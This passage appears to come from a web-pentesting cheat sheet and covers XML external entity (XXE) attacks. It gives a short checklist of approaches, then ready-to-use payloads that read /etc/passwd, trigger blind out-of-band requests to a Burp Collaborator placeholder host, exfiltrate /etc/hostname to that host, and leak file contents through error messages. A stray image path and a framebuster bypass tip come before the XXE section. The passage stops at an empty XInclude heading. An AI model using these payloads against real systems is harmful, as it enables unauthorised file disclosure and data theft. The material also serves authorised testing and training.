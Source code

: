 If guarded by a framebuster, use **`sandbox="allow-forms"`**

# XXE

- Determine if ENTITY is allowed and if so, which pattern is allowed.
- If neither of the two ENTITY patterns are allowed, external DTD loading may be used.
- If the input value is returned as a response, simply replacing the parameter may be sufficient.
- If an error message is returned, it may be possible to directly display a file.
- If the entire XML cannot be controlled, an XInclude Attack may be used.
- If SVG can be uploaded, SVG can be used.

XXE payloads:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
```

Blind XXE with OOB interaction:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP_COLLABORATOR_SUBDOMAIN"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % test SYSTEM "http://BURP_COLLABORATOR_SUBDOMAIN" > %test; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Obtain hostname via OOB:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP_COLLABORATOR_SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

Obtaining confidential information through error messages:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

XInclude:
